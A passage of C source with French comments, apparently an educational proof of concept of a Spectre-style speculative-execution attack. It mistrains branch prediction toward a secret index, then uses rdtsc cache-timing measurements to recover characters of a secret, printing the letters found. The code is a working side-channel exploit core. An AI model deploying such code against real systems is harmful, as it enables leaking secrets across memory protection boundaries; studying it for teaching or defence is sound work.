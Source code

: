 ```c
             * Il permet de faire une condition, sans pour autant ajouter des branches
             * L'ajout de branche risque d'annuler l'optimisation du processeur qui verrait
             * plusieurs chemin, donc n'entraînerait pas correctement son choix de branche.
             *
             * Le pseudo-code équivalent est le suivant
             *
             * if (i % FREQ == 0) {
             *     addr = idx; // Index d'attaque
             * } else {
             *     addr = trx; // Index dans le tableau
             * }
             * 
             * En faisant ceci, encore dans une optique de moyenne, toutes les FREQ itération
             * on va essayer de jouer sur la prédiction avec l'index du secret en paramètre
             * En faisant cela plusieurs fois, il devrait y avoir au moins une mise en cache
             */

            int addr = ((i % FREQ)-1) & ~0xffff; // addr = 0xffff0000 si i % FREQ == 0
            addr = (addr | (addr >> 16)); // addr = FFFF si i % FREQ == 0
            addr = trx ^ (addr & (trx ^ idx)); // addr = idx si i % FREQ == 0; sinon trx

            my_protected_function(addr);
        }

        delay();

        int before, after;

        before = __rdtsc(); // Donne le nombre de cycle d'horloge actuel
        access_value(paged_buffer[value]); // Accès à la page
        _mm_lfence(); // Permet d'éviter que 'after' soit récupéré avant que 'access_value' ne termine
        after = __rdtsc(); // Donne le nombre de cycle d'horloge actuel

        uint32_t diff = (uint32_t)(after-before); // Nombre de cycles pour l'accès à la zone mémoire

        access_time += diff;
        
        /*
         * Si le temps d'accès était supérieur à 80 cycles, alors on considère que la plage mémoire
         * étant dans la RAM
         * Sinon, elle était probablement dans le cache
         */
        if (diff > 80) {
            in_ram++;
        } else {
            in_cache++;
        }
    }

    if(in_cache > in_ram) {
        return 1;
    }
    return 0;
}


void get_all_access_time(int idx) {
    /* On réduit la plage pour l'exemple, car seule 'H' nous intéresse */
    for(int i = 'A'; i <= 'Z'; i++) {
        if (get_index_access_time(idx, i) == 1){
            printf("%c", i);
```